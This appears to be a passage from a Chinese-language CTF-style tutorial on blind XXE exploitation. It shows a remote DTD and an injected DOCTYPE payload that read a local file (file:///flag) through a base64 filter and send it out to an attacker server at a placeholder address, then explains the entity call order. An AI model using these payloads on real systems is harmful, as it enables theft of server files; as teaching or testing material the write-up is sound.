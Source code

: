 **test.dtd**

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip:9999?p=%file;'>">
```

**payload：**

```xml-dtd
<!DOCTYPE convert [  
<!ENTITY % remote SYSTEM "http://ip/test.dtd"> 
%remote;
%int;
%send; 
]> 
```

[![img](assets/1667437012295-822bf2d4-fa44-494b-adf3-d27f53a56154.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/XXE 无回显 payload.png)**结果如下：**

[![img](assets/1667437012573-375ebcc0-e3b9-48f3-8042-abaca8fa96ca.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/服务器接收.png)

我们清楚第看到服务器端接收到了我们用 base64 编码后的敏感文件信息(编码也是为了不破坏原本的XML语法)，不编码会报错。

**整个调用过程：**

我们从 payload 中能看到 连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来，然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 &#37;)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。
